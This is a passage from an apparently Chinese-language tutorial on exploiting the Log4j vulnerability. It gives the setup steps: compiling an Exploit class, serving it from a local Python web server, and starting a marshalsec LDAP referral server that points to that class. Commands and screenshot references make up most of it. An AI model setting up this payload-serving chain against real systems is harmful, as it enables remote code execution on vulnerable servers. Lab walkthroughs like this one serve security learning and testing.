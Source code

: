   ```
  javac Exploit.java
  ```

* 第四步：在当前目录输入如下命令，启动一个web服务，充当着远程下载的作用。

  ```bash
  python3 -m http.server 8100
  ```

<img src="漏洞利用\log4j (7).png" alt="log4j (7)" style="zoom:61%;" />

   * 第五步：输入如下命令启动marshalsec IDAP服务。

   项目地址：https://github.com/mbechler/marshalsec

```bash
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```

<img src="漏洞利用\log4j (8).png" alt="log4j (8)" style="zoom:58%;" />
